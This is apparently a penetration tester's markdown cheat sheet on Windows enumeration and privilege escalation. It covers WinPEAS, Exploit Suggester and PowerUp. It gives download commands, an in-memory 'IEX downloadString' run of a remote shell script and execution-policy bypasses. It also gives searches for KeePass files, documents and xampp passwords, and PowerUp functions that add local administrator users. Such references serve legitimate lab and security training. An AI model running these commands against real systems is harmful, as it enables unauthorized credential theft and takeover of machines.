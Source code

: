 ## Windows Enumeration

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [Windows Privesc Checker](https://www.kali.org/tools/windows-privesc-check/)
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Path fix

```
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

or 

set PATH=%SystemRoot%\system32;%SystemRoot%;

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```
### Powershell location

```
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```
### Writable Paths

```
C:\Windows\Temp

C:\Users\<USER>\Desktop\

C:\Users\Public\

C:\Documents and Settings\Public\

C:\Documents and Settings\<USER>\Desktop\
```
### PS styles

```
PS> $host

> powershell -c <cmd>

> powershell.exe -exec bypass -Command <>

```


### Cmds

```
# download file

certutil.exe -urlcache [-split] -f <source> <destination>

PS> wget <source> -OutFile <dest>

PS> Invoke-WebRequest -Uri <source> -Outfile <out-path>

powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')

powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')

wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

#run file

> ren <src> <dest>

PS> Start-Process <file.exe>

# rename

PS> Rename-Item -Path <file> -NewName <new-file>

# move

> copy /Y <src> <dest>

PS> Move-Item -Path <src> -Destination <dest>

# /E copies entire dir-structure

> robocopy <src> <dest> /E

# delete

PS> Remove-Item -Path <file> [-recursive]

```

### PS shorthand

```
# get child items

PS> gci [--recurse]

# get content

PS> gc FILE
```
### Arch based windows directory structure

| Session type   | 32 bit folder       | 64 bit folder         |
| -------------- | ------------------- | --------------------- |
| 32 bit session | C:\Windows\system32 | C:\Windows\sysNative\ |
| 64 bit session | C:\Windows\sysWOW64 | C:\Windows\system32\  |

### Manual

```

whoami # username/hostname
whoami /groups # check user is in which group

net user
net user <username>
Get-LocalUser # Powershell

net localgroup
net localgroup <groupname>
Get-localgroup # Powershell

systeminfo
netstat -ano

# Installed Apps # Powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-Process # Powershell - running process
Get-Process | Select ProcessName,Path # With Path

# Powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Powershell
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

# Default xampp passwords
type C:\xampp\passwords.txt
type C:\xampp\mysql\bin\my.ini

# Change username
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Get-History # Powershell History
(Get-PSReadlineOption).HistorySavePath # Powershell History

```

### Automate

```

winPEASx86.exe or winPEASx64.exe are best

Then

windows-privesc-check2.exe

Otherwise,

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"

or

./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'





```
### More Automate

### PowerUp

1. **Download and Import the Script:**
    
    - First, you need to download the `PowerUp.ps1` script from the PowerSploit repository. You can do this by cloning the PowerSploit repository from GitHub or by downloading the script directly.
        
    - Once you have the script, you can import it into your PowerShell session using the `Import-Module` cmdlet.
        
                
        `Import-Module ./Path/To/PowerUp.ps1`
        
2. **Run Functions to Find Vulnerabilities:**
    
    - `PowerUp.ps1` offers a variety of functions to check for common misconfigurations that can lead to privilege escalation. For example:
        
        - **Invoke-AllChecks:** This function runs all current escalation checks and returns a consolidated object with the results.
            
                        
            `Invoke-AllChecks`
            
        - **Get-ServiceUnquoted:** This function checks for services with unquoted paths that also have a space in their path. This can potentially lead to privilege escalation.
            
                        
            `Get-ServiceUnquoted`
            
        - **Write-UserAddMSI:** This function generates an MSI file in the specified path that prompts for installation. When installed, it adds a local or domain user with the specified username and password.
            
                        
            `Write-UserAddMSI -UserName "NewAdminUser" -Password "P@ssword!"`
            
1. **Write-ServiceBinary**: This function writes out a binary that adds a local admin user or executes a custom command when a service with an unquoted path (and a writable space in the path) is started.
    
        
    `Write-ServiceBinary -Name 'VulnerableServiceName' -Path 'C:\Path\To\Output\Binary.exe'`
    
2. **Invoke-ServiceAbuse**: This function abuses writable service binaries to write out a payload that adds a local admin user.
    
        
    `Invoke-ServiceAbuse -Name 'VulnerableServiceName' -UserName 'NewAdminUser'`
    
3. **Get-ModifiablePath**: This function finds paths that are modifiable by the current user and are in the system's PATH environment variable. This can be exploited if a service or application executes a binary from a directory that the user can write to.
    
        
    `Get-ModifiablePath`



